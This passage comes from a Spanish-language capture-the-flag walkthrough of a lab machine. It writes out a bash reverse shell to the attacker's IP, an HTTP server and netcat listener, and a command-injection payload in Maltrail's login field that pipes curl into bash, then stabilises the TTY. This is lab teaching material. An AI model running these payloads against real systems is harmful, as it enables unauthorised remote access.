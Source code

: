 ```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.9/443 0>&1' > index.html
```
---
Iniciamos un servidor HTTP en nuestro equipo atacante para servir este archivo.

```bash
python3 -m http.server 80
_______________________________________________________________________
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
---
Luego, preparamos nuestro listener en el puerto **443** utilizando `netcat` para recibir la conexión inversa.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```
---
Seguido de esto, aprovechamos nuevamente la vulnerabilidad SSRF, pero esta vez enviando una solicitud maliciosa con `curl` para que el servicio vulnerable de Maltrail ejecute nuestro script de conexión inversa.

```bash
curl http://10.10.11.224:55555/test/login --data-urlencode 'username=;`curl 10.10.16.9 | bash`'
```
---
Al ejecutar este comando, logramos obtener una conexión establecida con éxito como el usuario `puma`.

```bash
nc -lvnp 443
listening on [any] 443 ...
_______________________________________________________________________
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.224] 40522
puma@sau:/opt/maltrail$ 
```
---
Una vez dentro de la máquina, estabilizamos la TTY para trabajar cómodamente.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm SHELL=bash
stty rows 25 columns 127
```
## Escalada de Privilegios
---
Leemos la flag `user.txt` que se encuentra en el directorio home de puma.
